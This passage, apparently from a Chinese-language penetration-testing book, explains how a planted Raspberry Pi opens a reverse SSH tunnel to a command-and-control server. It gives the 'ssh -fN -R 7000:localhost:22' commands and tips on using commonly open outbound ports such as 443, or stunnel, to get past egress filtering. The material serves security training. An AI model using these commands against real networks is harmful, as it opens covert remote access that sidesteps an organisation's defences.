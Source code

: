 ![通过 SSH 进行反向 shell](img/6435OT_02_19.jpg)

我们将在`ssh`命令中使用`R`开关来创建到监听器的反向连接。监听器是接受反向 SSH 连接的设备。在我们的情况下，C&C 服务器是监听器。在远程主机（树莓派）上使用的命令的语法是`ssh -R [bind_address:]port:host:hostport`。

`R`开关定义了远程端将连接的端口，或者它将如何启动连接。换句话说，我们需要选择一个我们的远程树莓派能够连接的端口。大多数组织没有严格的出站过滤策略，这使得这种方法比标准 SSH 连接更有效。我们发现常见的开放端口是 TCP 端口 22、80、443 或 53，这意味着客户端可能能够自由地使用这些端口连接到外部世界。

### 注意

诸如下一代防火墙、下一代**IPS**（入侵防范系统的缩写）和高级代理服务器等严格的出站协议检查设备可能会阻止这些类型的连接。

**hostport**是您的树莓派上设置用于监听的端口。在我们的情况下，我们运行一个 SSH 服务器，因此默认情况下 hostport 将是`22`。您可以将默认端口更改为更隐蔽的端口，或者利用 stunnel，这将在本章中介绍。总之，端口将是 TCP 端口，服务器正在接受来自树莓派的传入连接。hostport 是服务器运行 SSH 服务的端口。

在我们的树莓派示例中，我们将输入以下命令：

```
ssh -fN -R 7000:localhost:22 username@ip-address-of-your-command-and-control-server
ssh -fN -R 7000:localhost:22 root@192.168.162.133

```

这假设从我们的树莓派连接的网络允许端口`7000`出去。如果不起作用，请尝试不同的端口。大多数组织将允许出站端口`443`，如下图所示：

![通过 SSH 进行反向 shell](img/6435OT_02_20.jpg)
